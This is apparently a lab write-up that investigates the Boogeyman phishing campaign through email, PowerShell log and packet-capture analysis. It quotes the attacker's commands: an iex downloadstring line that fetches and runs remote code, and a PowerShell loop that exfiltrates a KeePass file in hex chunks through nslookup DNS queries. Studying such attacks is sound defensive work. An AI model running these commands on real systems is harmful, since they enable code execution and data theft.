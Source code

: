```yaml
---
{"dg-publish":true,"permalink":"/phishing-campaign-by-boogeyman-threat-group/"}
---
```


[[]]
### Case Description
---
A finance employee receives an email regarding about an unpaid invoice from their business partner, the employee clicked the attachment and compromised her workstation.

Further reports received from other finance department employees that they received the same email, research reveals a new threat group named Boogeyman known for targeting the logistics sector.
## Tools
---
- Thunderbird
- LNKParse3 - a python package for forensic analysis on LNK extensions.
- Wireshark/Tshark
- jq - a commandline JSON parser

# Analysis

The artefacts are:
- dump.eml - the phishing email sent by the threat group.
- Powershell logs
- Packet Capture from the compromised workstation.
### Email Analysis
---
Sample screenshot of the email received by the financial employee:

![Pasted image 20240920174933.png](/img/user/images/Pasted%20image%2020240920174933.png)
- Sender: agriffin@bpakcaging[.]xyz - note on the missing 'c' in 'packaging'.
- Receiver: julianne.westcott@hotmail[.]com.
- Third-party mail relay service: elasticemail.
- The attached filename is: Invoice_20230103[.]lnk

Using `lnkparse email.lnk` shows that it opens up a powershell hidden with a base64 encoded payload:

![Pasted image 20240920175150.png](/img/user/images/Pasted%20image%2020240920175150.png)
The decoded string is:

```Powershell
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
```
### Endpoint Analysis
---
Sample screenshot of the Powershell logs:

![Pasted image 20240920183325.png](/img/user/images/Pasted%20image%2020240920183325.png)

![Pasted image 20240920183737.png](/img/user/images/Pasted%20image%2020240920183737.png)
![Pasted image 20240920184102.png](/img/user/images/Pasted%20image%2020240920184102.png)
- The subdomain `files` is most likely used to serve the required files for
- The second subdomain `cdn` is most likely the Command and Control as based on the script analysis, it makes a POST request to this subdomain.
- The threat actor downloaded two binaries from their domain one is **sb.exe** and **sq3.exe**.

Since the compromised started with the base64 encoded payload, I will sort the logs via timestamp and use grep to print out the _after-context_, in this way we can see the following events:

```Powershell
cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[] | {ScriptBlockText}' | grep "iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')" -A 30
```

Command Output:

![Pasted image 20240920185226.png](/img/user/images/Pasted%20image%2020240920185226.png)
The threat actor download a `sb.exe` ~~which I assume is a binary that gives you privileges based on the commands inputted~~:

![Pasted image 20240920185612.png](/img/user/images/Pasted%20image%2020240920185612.png)
After further research and viewing down the logs, it is [seatbelt.exe](https://github.com/GhostPack/Seatbelt) used to test safety checks implemented by gathering data based on inputs:

Screenshot from the github documentation:

![Pasted image 20240920190053.png](/img/user/images/Pasted%20image%2020240920190053.png)
The **sq3.exe** binary is found and executed against microsoft sticky notes:

![Pasted image 20240920190512.png](/img/user/images/Pasted%20image%2020240920190512.png)
- Further analysis found the name of the user is j.westcott found using the logs from `cd` commands.

Then the threat actor exfiltrated a file named **protected_data.kdbx** (KeePass Password Manager) from the Documents directory with a IP address destination: 167.71.211.113:

```PowerShell
cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[] | {ScriptBlockText}' | grep "sq3.exe"  -A 20
```

Command Output:

![Pasted image 20240920190953.png](/img/user/images/Pasted%20image%2020240920190953.png)
Then the threat actor uses `hex` as encoding for exfiltrating the files:

![Pasted image 20240920191252.png](/img/user/images/Pasted%20image%2020240920191252.png)
##### Analyzing the PowerShell
---
```powershell
$split = $hex -split '(\\S{50})'; ForEach ($line in $split) { nslookup -q=A \"$line.bpakcaging.xyz\" $destination;} echo \"Done\";;pwd"}
```

- The hex are splitted into chunks each chunk contains 50 characters and is stored in a variable name `$split`.
- Each line `$split` has is appended to `$<hex_data_here>.bpakcaging.xyz` and uses nslookup to exfiltrate the data.
- The threat actor Domain Name System Server will capture the lookup attempts and logs them for the attacker to view and rebuild the file using the hex.
### Network Traffic Analysis
---
Based on the screenshot the threat actor leverages a simple python server to host their files:

![Pasted image 20240920193422.png](/img/user/images/Pasted%20image%2020240920193422.png)
Using Wireshark we can find the DNS queries to the threat actor DNS server with:

```bash
dns.resp.name and ip.addr == 167.71.211.113
```

Command Output:

![Pasted image 20240920194200.png](/img/user/images/Pasted%20image%2020240920194200.png)
Using tshark with the above filter + regular expression matching results into:

```bash
tshark -r capture.pcapng --color -Y "dns.resp.name and ip.addr == 167.71.211.113" | grep -E "[a-zA-Z0-9]+\.bpakcaging\.xyz" -o
```

Command output:

![Pasted image 20240920200639.png](/img/user/images/Pasted%20image%2020240920200639.png)
- Discovered additional subdomain by the threat actor
- Exfiltrated hex encoded data.

Rebuilding the `.kdbx` file with the command:

```bash
tshark -r capture.pcapng --color -Y "dns.resp.name and ip.addr == 167.71.211.113" | grep -E "([a-zA-Z0-9])+\.bpakcaging\.xyz" -o | sed 's/.bpakcaging.xyz//g' | sed 's/ns1//g' | sed 's/ns2//g' | xxd -r -p > file.kdbx
```

However it requires the password:

![Pasted image 20240920202344.png](/img/user/images/Pasted%20image%2020240920202344.png)
I filtered for port 8080 and http on Wireshark:

![Pasted image 20240920210615.png](/img/user/images/Pasted%20image%2020240920210615.png)
- It shows the command given by the C2 in every http response code 200 and make a POST request back to the C2 to show the output of the command.

In tshark we can get each line with this command:

```Bash
tshark -r capture.pcapng --color -Y 'http and tcp.port == 8080 and http.request.method == "POST"' -T fields -e http.file_data | head -n 1
```

Command Output:

![Pasted image 20240921163104.png](/img/user/images/Pasted%20image%2020240921163104.png)
Then by removing the `head -n 1` and storing them to a file and using a python script to convert the decimal to their ASCII equivalent:

```bash
tshark -r capture.pcapng --color -Y 'http and tcp.port == 8080 and http.request.method == "POST"' -T fields -e http.file_data > ./test.txt
```

And the python code:

![Pasted image 20240921164801.png](/img/user/images/Pasted%20image%2020240921164801.png)
Then saving it into a file and using grep:

![Pasted image 20240921165201.png](/img/user/images/Pasted%20image%2020240921165201.png)
Based on the powershell logs the threat actor accessed the `plum.sqlite` database for Microsoft Sticky Notes:

```bash
cat output.txt | grep "plum.sqlite" -a -A 100
```

Command output:

![Pasted image 20240921170656.png](/img/user/images/Pasted%20image%2020240921170656.png)
Then we can open the `.kdbx` file and use the found password:

`CTRL +H `

![Pasted image 20240921171232.png](/img/user/images/Pasted%20image%2020240921171232.png)




